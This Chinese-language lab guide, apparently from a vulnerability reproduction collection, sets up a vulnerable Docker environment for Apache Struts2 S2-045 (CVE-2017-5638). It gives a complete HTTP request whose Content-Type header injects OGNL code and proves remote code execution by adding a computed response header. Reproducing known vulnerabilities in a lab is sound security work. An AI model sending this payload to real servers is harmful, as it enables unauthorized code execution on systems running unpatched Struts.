# S2-045 远程代码执行漏洞（CVE-2017-5638）

影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

漏洞详情:

 - http://struts.apache.org/docs/s2-045.html
 - https://blog.csdn.net/u011721501/article/details/60768657
 - https://paper.seebug.org/247/

## 漏洞环境

执行如下命令启动struts2 2.3.30：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到上传页面。

## 漏洞复现

直接发送如下数据包，可见`233*233`已成功执行：

```
POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Length: 0
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data


```

![](1.png)
